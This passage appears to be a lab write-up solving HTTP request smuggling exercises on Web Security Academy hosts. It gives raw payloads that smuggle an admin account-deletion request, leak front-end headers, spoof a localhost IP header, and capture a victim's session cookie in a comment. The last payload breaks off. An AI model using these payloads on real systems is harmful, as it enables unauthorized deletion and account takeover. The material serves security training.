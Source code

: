 ```
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
3. This lab is about using request smuggling to leak and then override headers that are added by the front-end server. To leak the headers of a request rewritten by the front-end server, the following payload can be used:
```
POST / HTTP/1.1
Host: ace61f001eb9babcc02ab252007f00dc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=
```
This will use the search feature to leak the beginning of the request headers, which contains a custom IP header for determining if a request is allowed to access the admin page. Using that information, the following payload can be used to trick the backend into thinking the next request is one to delete the `carlos` account coming from localhost:
```
POST / HTTP/1.1
Host: ace61f001eb9babcc02ab252007f00dc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-FFjOLo-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```
4. This lab uses request smuggling to put a victim's request into a comment via a smuggled comment POST request. While I was having a difficult time getting the victim user to look at the page at the right time due to the randomized timings, this payload does appear to work and posts my own requests into a comment when I immediately trigger the attack. From there, taking over the user's account simply involves manually changing your session cookie to match the leaked one. The following payload triggers the attack:
```
POST / HTTP/1.1
Host: ac021f1b1f31eb76c0ef2ea900d90055.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 249
```